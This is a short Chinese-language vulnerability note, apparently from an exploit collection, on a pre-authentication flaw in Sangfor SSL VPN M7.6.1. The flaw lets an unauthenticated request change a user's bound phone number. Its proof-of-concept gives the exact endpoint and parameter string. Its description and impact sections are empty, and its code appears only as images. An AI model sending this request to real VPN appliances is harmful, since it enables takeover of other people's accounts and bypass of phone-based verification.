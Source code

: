深信服 SSL VPN - Pre Auth 修改绑定手机
======================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

老版本(M7.6.1)代码放上，看不懂的直接看 POC
吧；新版本的没绕成功还在审，所以不确定是不是这个

![1.png](./.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId24.png)

![2.png](./.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId25.png)

![3.png](./.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId26.png)

### POC

    https://www.0-sec.org/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

参考链接
--------

> https://blog.sari3l.com/
